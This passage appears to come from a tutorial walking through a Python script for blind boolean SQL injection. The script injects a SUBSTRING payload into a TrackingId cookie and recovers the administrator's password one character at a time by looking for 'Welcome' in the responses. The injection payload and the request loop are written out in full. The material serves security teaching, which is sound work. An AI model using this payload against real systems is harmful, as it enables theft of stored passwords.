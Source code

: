     ```python
    burp0_cookies["TrackingId"] = f"aw52CZkptjzVQuMV' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{char}"
    ```
    
    - The `TrackingId` cookie gets updated with an **SQL injection payload**:
        - `SUBSTRING(password, {position}, 1)` extracts one character of the password at the current `position`.
        - `'{char}'` is the character the script is testing.
    
    For example:
    
    - If `position = 1` and `char = 'a'`, the payload becomes:
        
        ```
        aw52CZkptjzVQuMV' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
        ```
        
    - This checks if the **first character** of the password is `'a'`.
2. **Send the request to the server**:
    
    ```python
    response = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
    ```
    
    - The script sends the request with the payload to the target server.
    - The server responds based on whether the guess is correct or not.
3. **Check the response**:
    
    ```python
    if "Welcome" in response.text:
    ```
    
    - If the response contains the word "Welcome," it means the guess was correct.
4. **Store the correct character**:
    
    ```python
    password += char
    ```
    
    - The correct character is added to the `password`.
5. **Move to the next position**:
    
    ```python
    break
    ```
    
    - The inner loop stops once the correct character is found, and the outer loop moves to the next position.

---

### **What happens after all positions are guessed?**

At the end of the loop, the script prints the final password:

```python
print(f"Pass: {password}")
```
